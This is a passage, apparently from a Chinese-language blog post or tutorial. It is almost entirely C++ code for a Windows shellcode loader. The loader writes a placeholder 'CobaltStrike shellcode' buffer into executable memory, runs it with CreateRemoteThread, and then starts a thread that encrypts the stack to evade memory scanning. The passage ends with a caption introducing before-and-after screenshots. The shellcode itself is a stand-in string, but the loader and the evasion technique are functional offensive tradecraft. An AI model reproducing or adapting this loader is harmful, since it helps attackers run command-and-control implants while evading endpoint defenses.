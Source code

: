 ```cpp

    // 释放密钥
    free(key);
}


int main() {
    // 在堆栈上保存一些变量
    unsigned char shellcode[] = "CobaltStrike shellcode";

    // 获取当前进程的句柄
    DWORD pnameid = GetCurrentProcessId();
    HANDLE processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pnameid);

    // 在远程进程中分配内存并写入shellcode
    PVOID remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(processHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);

    // 在远程进程中创建一个新线程来执行shellcode
    HANDLE remoteThread = CreateRemoteThread(processHandle, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);

    // 关闭进程句柄
    CloseHandle(processHandle);

    getchar();

    // 获取RSP的值，表示堆栈的起始地址
    unsigned char* rsp;
    asm("movq %%rsp, %0;" : "=r" (rsp));
    printf("[+] The address of rsp is %p\n", rsp);

    // 创建一个线程来执行堆栈加密
    HANDLE hThread = CreateThread(NULL, 0, EncryptThread, rsp, 0, NULL);
    if (hThread == NULL) {
        printf("[-] Failed to create thread\n");
        return 1;
    }

    // 暂停等待用户输入
    system("pause");
    return 0;
}

```



以下是堆栈加密前和加密后的对比图：
